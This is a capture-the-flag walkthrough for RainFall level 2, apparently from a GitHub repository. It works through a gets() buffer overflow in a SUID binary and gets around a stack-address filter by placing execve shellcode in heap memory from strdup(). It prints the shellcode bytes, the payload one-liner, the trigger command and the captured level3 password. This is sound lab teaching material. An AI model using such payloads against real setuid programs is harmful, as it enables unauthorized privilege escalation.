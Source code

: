# Level 2 Walkthrough

## Who am I?

```bash
level2@RainFall:~$ id
uid=2021(level2) gid=2021(level2) groups=2021(level2),100(users)
```

## Where am I?

```bash
level2@RainFall:~$ ll
total 17
dr-xr-x---+ 1 level2 level2   80 Mar  6  2016 ./
dr-x--x--x  1 root   root    340 Sep 23  2015 ../
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2*
```

We are in possession of a SUID binary owned by level3. Our objective is to exploit this binary to gain a shell as level3 and read the corresponding `.pass` file.

## First look at the binary (GDB)

Before running the binary, we open it in GDB to check which functions are defined:

```gdb
(gdb) info functions
...
0x080484d4 p
0x0804853f main
```

We see two user-defined functions of interest: `main()` and `p()`.

Let’s disassemble `main()`:

```gdb
(gdb) disas main
    0x0804853f <+0>: push %ebp
    0x08048540 <+1>: mov %esp,%ebp
    0x08048542 <+3>: and $0xfffffff0,%esp
    0x08048545 <+6>: call 0x80484d4 <p>
    0x0804854a <+11>: leave
    0x0804854b <+12>: ret
```

The main function simply calls `p()`.

Now, disassembling `p()` gives:

```gdb
(gdb) disas p
    ...
    call 0x80483c0 <gets@plt>
    ...
    call 0x80483f0 <puts@plt>
    ... call 0x80483e0 <strdup@plt>
```

We immediately notice the use of the insecure `gets()` function and that the input is printed and copied using `puts()` and `strdup()` respectively. This sets the stage for a possible buffer overflow exploit.

## Program Behavior

The program accepts input from stdin, prints it back, and exits.

```bash
level2@RainFall:~$ ./level2
test
test
```

But when given a longer input:

```bash
level2@RainFall:~$ ./level2
<100+ characters>
Segmentation fault (core dumped)
```

This crash strongly suggests the presence of a buffer overflow.

## Exploitation Strategy

### Step 1: Discover the overflow offset

We generate a cyclic pattern of 100 bytes:

```bash
$ msf-pattern_create -l 100
Aa0Aa1Aa2Aa3Aa4Aa5...
```

Then launch the binary inside GDB:

```gdb
(gdb) run
Aa0Aa1Aa2Aa3Aa4Aa5...
Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb) info registers eip
eip            0x37634136       0x37634136
```

We find the offset:

```bash
$ msf-pattern_offset -q 0x37634136
[*] Exact match at offset 80
```

So it takes **80 bytes** to reach EIP.

### Step 2: Understand the program's filter

Using Ghidra, we decompiled the binary and observed the following logic in the function `p()`:

```c
if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n", unaff_retaddr);
    _exit(1);
}
```

**Note:** The variable `unaff_retaddr` does not appear in the source code. This is a name automatically generated by Ghidra to represent the return address saved on the stack. Internally, the program likely retrieves this using a compiler intrinsic such as `__builtin_return_address(0)`.

This check verifies whether the return address (i.e., the address where execution would continue after the function ends) starts with `0xb`, which corresponds to stack memory on this system (e.g., `0xbfxxxxxx`).

If the return address points to the stack, the program prints it and exits immediately. This effectively blocks stack-based shellcode. As a result, we must place our shellcode somewhere else, like the heap and redirect execution there instead.

### Step 3: Determine a usable memory region

At this point, we know that jumping to the stack is forbidden. To successfully exploit the binary, we need to redirect execution to a region where we can inject shellcode that won't be rejected by the address check.

The heap is a good candidate because memory allocations via `malloc()` (used indirectly by `strdup()`) are typically located in the `0x0804xxxx` range, which does not begin with `0xb`.

We will now verify where the heap allocation occurs.

### Step 4: Identify the heap allocation address


After entering input, the program stores a copy of it using `strdup()`, which allocates memory on the heap. This is important because, due to the return address filter (see Step 2), we cannot execute shellcode on the stack.
`ltrace` is a tool that traces calls to shared libraries (like `libc`). It allows us to observe functions such as `gets`, `strdup`, `malloc`, etc., in real time, without needing symbols or debugging information.

So, to locate where the input gets copied in the heap, we can run the binary with `ltrace`:

```bash
$ ltrace ./level2
fflush(0xb7fd1a20)                                    = 0
gets(0xbffff6fc)                                      = 0xbffff6fc
puts("test")                                          = 5
strdup("test")                                        = 0x0804a008

```

This confirms that our input is copied to the heap at `0x0804a008` via `strdup()`.

Since this address doesn't start with 0xb, it passes the check and is usable for exploitation. This is where we’ll inject our shellcode, and later overwrite the return address to jump here.

### Step 5: Plan the payload layout

At this point, we know:

* We can inject shellcode through standard input.
* It will be stored in the heap via `strdup()` at an address like `0x0804a008`.
* The return address is overwritten at offset 80.

The goal is to:

1. Place shellcode at the beginning of the input so it ends up in the heap.
2. Pad the rest of the input up to 80 bytes.
3. Overwrite the return address with the address of the shellcode in the heap.

We can now move on to crafting the actual payload.

### Step 6: Build the exploit payload

* Shellcode (28 bytes): `execve("/bin//sh")` from [https://shell-storm.org/shellcode/files/shellcode-811.html](https://shell-storm.org/shellcode/files/shellcode-811.html)
* Padding (52 bytes): to reach EIP at offset 80
* Return address: `0x0804a008` (address of shellcode in heap)

```bash
python -c 'print("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 52 + "\x08\xa0\x04\x08")' > /tmp/exploit
```

### Step 7: Trigger the exploit

To maintain an interactive shell:

```bash
cat /tmp/exploit - | ./level2
```

### Step 8: Validate access

```bash
$ whoami
level3
$ cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

## Files in this repository

* `flag.txt`: file containing the retrieved flag
* `asm_analysis.md`: GDB analysis of the binary
* `source/`: contains `ghidra/` (raw Ghidra decompilation) and `clean/` (cleaned C, faithful to binary)

